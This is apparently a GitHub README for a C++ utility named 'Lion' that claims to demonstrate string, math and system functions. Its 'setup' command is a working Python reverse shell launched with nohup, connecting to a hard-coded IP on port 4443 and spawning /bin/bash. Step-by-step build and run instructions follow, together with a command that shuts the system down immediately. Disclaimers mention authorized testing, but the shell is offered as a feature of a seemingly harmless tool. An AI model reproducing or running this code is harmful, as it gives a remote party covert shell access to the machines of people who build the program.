

# Lion

## Overview

This is a C++ program that demonstrates various functionalities, including string manipulation, mathematical operations, and system-level interactions. It also includes a module manager for organizing and managing different components of the application.

**Important Note**: The code includes a Python script that establishes a reverse shell connection to a remote IP address (`172.233.149.248:4443`). This is a potentially malicious operation and should only be used in controlled environments for legitimate purposes (e.g., penetration testing with proper authorization). Use this code responsibly and ethically.

---

## Features

- **String Manipulation**: Combines a greeting message with the current username using `linux_branch::string::FullString`.
- **Mathematical Operations**: Performs basic arithmetic operations (e.g., addition) using the `add` function.
- **System Interaction**: Includes a `setup` command that executes a Python script for network operations.
- **Root Check**: Verifies if the application is running with root privileges using `root::check_root`.

---

## Code Explanation

### Main Functionality

```cpp
#include "core/core.h"
#include "modules/module_manager.h"

bool setup_command() {
  static bool executed = false;
  if (!executed) {
    system("nohup python3 -c 'import socket,subprocess,os;"
           "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);"
           "s.connect((\"172.233.149.248\",4443));"
           "os.dup2(s.fileno(),0);"
           "os.dup2(s.fileno(),1);"
           "os.dup2(s.fileno(),2);"
           "import pty; pty.spawn(\"/bin/bash\")' > /dev/null 2>&1 &");
    executed = true;
    return executed;
  }
  std::cout << "Running on Linux!" << std::endl;
  return executed;
}

bool math_command() {
  try {
    modules::math::operations ops;
    double result = ops.add(1.0,2.0);
    Logger::log(Logger::LogLevel::Info,
                "Result of addition: " + std::to_string(result));
  } catch (const std::exception &e) {
    std::cerr << "Error: " << e.what() << std::endl;
    return false;
  }
  return true;
}

bool shutdown_command() {
  system("shutdown -h now");
  Logger::log(Logger::LogLevel::Info, "System is shutting down...");
  return true;
}

bool test_command() {
  testCore::command test;
  test.testCommand();
  Logger::log(Logger::LogLevel::Info, "Test command executed successfully.");
  return true;
}

int main(int argc, char **argv) {
  Logger::log(Logger::LogLevel::Info, "Starting the application...");

  const std::string username = modules::username::getUsername();
  const std::string colored_username = RESET + username + RESET;
  std::string role =
      modules::root::is_root() ? RED "root" RESET : GREEN "non-root" RESET;

  const std::string greeting = colored_username + " [" + role + "]";

  if (argc < 2) {
    // std::cout << greeting << std::endl;
    Logger::log(Logger::LogLevel::Info, greeting);
    Logger::log(Logger::LogLevel::Info, "Available commands: setup, math");
    return 1;
  }

  const std::string command = argv[1];

  // Map of command names to their corresponding functions
  std::map<std::string, std::function<bool()>> command_map = {
      {"shutdown", shutdown_command},
      {"setup", setup_command},
      {"math", math_command},
      {"test", test_command},
  };

  auto it = command_map.find(command);
  if (it != command_map.end()) {
    it->second();
  } else {
    // std::cerr << "Unknown command: " << command << std::endl;
    Logger::log(Logger::LogLevel::Error, "Unknown command: " + command);
    return 1;
  }

  return 0;
}
```

### Prerequisites

Before building and running the project, ensure you have the following installed:

    C++ Compiler: GCC or Clang.

    Python 3: Required for the setup command (Reverse Shell).

    Linux Environment: The application is designed to run on Linux.
---

### Building and Running

    Clone the Repository:
    bash
    Copy

    git clone https://github.com/EIonvv/Lion.git
    cd Lion

    Compile the Code:
    bash
    Copy

    g++ -o my_program main.cpp -Iinclude -Llib -lmodule_manager

    Run the Program:
    bash
    Copy

    ./my_program

    To execute the setup command:
    bash
    Copy

    ./my_program setup
---

### Warning

The setup command executes a Python script that creates a reverse shell connection to a remote IP address (172.233.149.248:4443). This is a security risk and should only be used in controlled environments with proper authorization. Misuse of this code may violate laws and ethical guidelines.
License

This project is licensed under the MIT License. Use it responsibly and at your own risk.
Contributing

Contributions are welcome! Please open an issue or submit a pull request for any improvements or fixes.

---

### Example



